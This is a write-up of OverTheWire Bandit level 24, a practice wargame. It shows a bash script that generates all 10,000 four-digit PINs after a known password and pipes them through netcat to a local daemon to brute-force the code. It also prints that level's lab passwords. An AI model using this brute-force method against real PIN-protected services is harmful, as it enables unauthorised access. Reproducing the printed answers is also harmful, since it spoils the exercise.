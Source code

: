 # Level 24

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

## Solution

```bash
$ ssh bandit24@bandit.labs.overthewire.org -p 2220
$ bandit24@bandit:~$ mkdir /tmp/dir
$ bandit24@bandit:~$ cd /tmp/dir
$ bandit24@bandit:/tmp/dir$ nano script.sh
```

I then needed to create a dictionary. This dictionary would have the current password + a 4 digit code. Since we do not know the 4 digit code, we need to print all possible variations.

```bash

#!/bin/bash
passwd="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"

for a in {0..9}
do
        for b in {0..9}
        do
                for c in {0..9}
                do
                        for d in {0..9}
                        do
                                echo $passwd $a$b$c$d >> dictionary.txt
                        done
                done
        done
done

```

Then I will need to run the script:

```bash
$ bandit24@bandit:/tmp/dir$ chmod 777 script.sh
$ bandit24@bandit:/tmp/dir$ ./script.sh
$ bandit24@bandit:/tmp/dir$ cat dictionary.txt
```

Returns a large file with all possible combinations:
```bash
...
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9957
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9958
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9959
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9960
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9961
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9962
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9963
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9964
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9965
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9966
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9967
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9968
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9969
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9970
...
```

We then need to use netcat on port `30002` and pipe in the `dictionary.txt`:

```bash
$ bandit24@bandit:/tmp/dir$ cat dictionary.txt | nc localhost 30002 >> password.txt
```

Seeing as our password file will have many incorrect entries, we should sort it.

```bash
$ bandit24@bandit:/tmp/pppp$ sort -u password.txt

Correct!
Exiting.
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
Wrong! Please enter the correct pincode. Try again.
```

